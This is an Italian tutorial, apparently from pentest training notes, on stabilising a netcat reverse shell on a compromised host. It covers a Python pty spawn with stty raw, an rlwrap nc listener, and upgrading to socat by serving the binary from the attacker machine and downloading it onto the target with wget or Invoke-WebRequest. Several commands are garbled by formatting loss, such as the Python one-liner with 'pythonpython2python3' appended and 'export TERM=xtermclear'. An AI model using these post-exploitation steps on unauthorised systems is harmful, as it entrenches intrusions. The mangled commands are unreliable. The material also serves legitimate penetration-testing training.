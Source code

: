 Abbiamo una connessione ad una shell netcat e adesso?

Queste shell sono molto fragile (ES: con crtl+c killa la connessione) e non dispongono di tutti i comandi, ma, possiamo renderla piu stabile e piu manegevole con alcune tecniche

# TECNICA 1: PYTHON

La prima tecnica di cui parleremo è **applicabile** solo alle caselle **Linux** , poiché avranno quasi sempre Python installato di default. Si tratta di un processo in tre fasi:

1. La prima cosa da fare è usare **`python -c 'import pty;pty.spawn("/bin/bash")'pythonpython2python3`**, che usa Python per generare una shell bash con funzionalità migliori; nota che alcuni target potrebbero aver bisogno della versione di Python specificata. Se questo è il caso, sostituisci con o come richiesto. A questo punto la nostra shell apparirà un po' più carina, ma non saremo ancora in grado di usare il completamento automatico con Tab o i tasti freccia, e Ctrl + C ucciderà comunque la shell.
2. Il secondo passo è: **`export TERM=xtermclear,`** questo ci darà accesso a comandi terminologici come **clear**
3. Infine (e più importante) metteremo in background la shell usando Ctrl + Z. Tornati nel nostro terminale, usiamo **`stty raw -echo; fg`**. Questo fa due cose: prima, disattiva il nostro echo del terminale (**che ci dà accesso al completamento automatico tramite tab, ai tasti freccia e a Ctrl + C per terminare i process**i). Quindi mette in primo piano la shell, completando così il processo.

# La tecnica completa può essere vista qui:

![image](https://github.com/user-attachments/assets/189b7ed4-1d42-4dd7-858f-27f78f8e435e)

**NB:** Se la shell muore, qualsiasi input nel tuo terminale non sarà visibile (come risultato della disattivazione dell'echo del terminale). Per risolvere questo problema, digita resete premi invio.

# *Technique 2: rlwrap*

**rlwrap** è un programma che, in parole povere, ci dà **accesso** alla **cronologia**, al **completamento automatico tramite Tab** e ai **tasti freccia** immediatamente **dopo** aver **ricevuto** una **shell** *;* tuttavia, è comunque necessario ricorrere ad *una certa* stabilizzazione manuale se si desidera poter usare Ctrl + C all'interno della shell. **rlwrap non è installato di default su Kali,** quindi installalo prima con **`sudo apt install rlwrap`**.

Per utilizzare rlwrap, invochiamo un listener leggermente diverso:

- **`rlwrap nc -lvnp <port>`**

Aggiungere "**rlwrap**" al nostro listener netcat ci dà una shell molto più completa. Questa **tecnica** è particolarmente **utile** quando si ha a che fare con **shell Windows**, che altrimenti sono notoriamente difficili da stabilizzare. Quando si ha a che fare con un target Linux, è possibile stabilizzare completamente, usando lo stesso trucco del passaggio tre della tecnica precedente: mettere in background la shell con Ctrl + Z, quindi usare **`stty raw -echo; fg`**per stabilizzare e rientrare nella shell.

# *Tecnica 3: Socat*

Il terzo modo semplice per stabilizzare una shell è semplicemente **usare** una **shell netcat** iniziale **come trampolino** di lancio **verso** una **shell socat più completa**. Tieni presente che questa tecnica è **limitata** ai **target Linux**, poiché una shell Socat su Windows non sarà più stabile di una shell netcat. Per realizzare questo metodo di stabilizzazione, trasferiremmo prima un [binario compilato statico socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (una versione del programma compilata per non avere dipendenze) sulla macchina target. Un modo tipico per ottenere questo risultato sarebbe usare un webserver sulla macchina attaccante all'interno della directory contenente il tuo binario socat ( **`sudo python3 -m http.server 80`**), quindi, sulla macchina target, usare la shell netcat per scaricare il file. Su Linux questo sarebbe realizzato con curl o wget ( **`wget <LOCAL-IP>/socat -O /tmp/socat`**).

Per completezza: in un ambiente Windows CLI la stessa cosa può essere fatta con Powershell, usando Invoke-WebRequest o una classe di sistema webrequest, a seconda della versione di Powershell installata ( **`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`** )

Con una qualsiasi delle tecniche sopra descritte, è utile poter modificare la dimensione tty del terminale. Questa è una cosa che il terminale farà automaticamente quando si usa una shell normale; tuttavia, deve essere fatta manualmente in una shell reverse o bind se si vuole usare qualcosa come un editor di testo che sovrascrive tutto sullo schermo.

Per prima cosa, apri un altro terminale ed esegui **`stty -a`**. Questo ti darà un ampio flusso di output. Annota i valori per "rows" e columns:

![image](https://github.com/user-attachments/assets/0261c3a3-e4fd-47a0-9849-a643eb29c1df)

Successivamente, nella shell reverse/bind, digita:

**`stty rows <number>`**

E

**`stty cols <number>`**

Inserisci i numeri ottenuti eseguendo il comando nel tuo terminale.

Ciò modificherà la larghezza e l'altezza registrate del terminale, consentendo così ai programmi come gli editor di testo che si basano sull'accuratezza di tali informazioni di aprirsi correttamente.



